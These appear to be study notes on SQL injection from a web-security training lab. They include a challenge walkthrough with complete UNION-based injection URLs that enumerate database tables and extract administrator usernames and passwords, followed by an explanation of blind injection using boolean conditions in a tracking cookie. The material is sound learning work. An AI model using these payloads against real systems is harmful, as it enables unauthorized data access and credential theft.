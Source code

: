 ```
MyDatabase     dbo           Users       Password     varchar
This output shows the columns in the specified table and the data type of each column.

## Challenge
Get the database and table information out of the database in Shop via the Category param vulnerability to get the username and password for administrator then login. 

First, determine number of columns. 
Second, list table names from information_schema.tables - https://0a4f00e4033d3a1fde03c8b600d0007e.web-security-academy.net/filter?category=Gifts%27+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
Third, select the column names from the table from information_schema.columns - https://0a4f00e4033d3a1fde03c8b600d0007e.web-security-academy.net/filter?category=Gifts%27+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns%20WHERE%20table_name=%27users_brauzl%27--
Finally, extract the usernames and passwords from the table users_brauzl and the columns found - https://0a4f00e4033d3a1fde03c8b600d0007e.web-security-academy.net/filter?category=Gifts%27%20UNION%20SELECT%20username_onopjk,%20password_bikvfm%20FROM%20users_brauzl%20--

# Blind SQL injection
In this section, we describe techniques for finding and exploiting blind SQL injection vulnerabilities.

## What is blind SQL injection?
Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.

Many techniques such as UNION attacks are not effective with blind SQL injection vulnerabilities. This is because they rely on being able to see the results of the injected query within the application's responses. It is still possible to exploit blind SQL injection to access unauthorized data, but different techniques must be used.

## Exploiting blind SQL injection by triggering conditional responses
Consider an application that uses tracking cookies to gather analytics about usage. Requests to the application include a cookie header like this:

Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
When a request containing a TrackingId cookie is processed, the application uses a SQL query to determine whether this is a known user:

SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
This query is vulnerable to SQL injection, but the results from the query are not returned to the user. However, the application does behave differently depending on whether the query returns any data. If you submit a recognized TrackingId, the query returns data and you receive a "Welcome back" message in the response.

This behavior is enough to be able to exploit the blind SQL injection vulnerability. You can retrieve information by triggering different responses conditionally, depending on an injected condition.

To understand how this exploit works, suppose that two requests are sent containing the following TrackingId cookie values in turn:
```
…xyz' AND '1'='1
…xyz' AND '1'='2
```
The first of these values causes the query to return results, because the injected AND '1'='1 condition is true. As a result, the "Welcome back" message is displayed.
The second value causes the query to not return any results, because the injected condition is false. The "Welcome back" message is not displayed.
This allows us to determine the answer to any single injected condition, and extract data one piece at a time.

```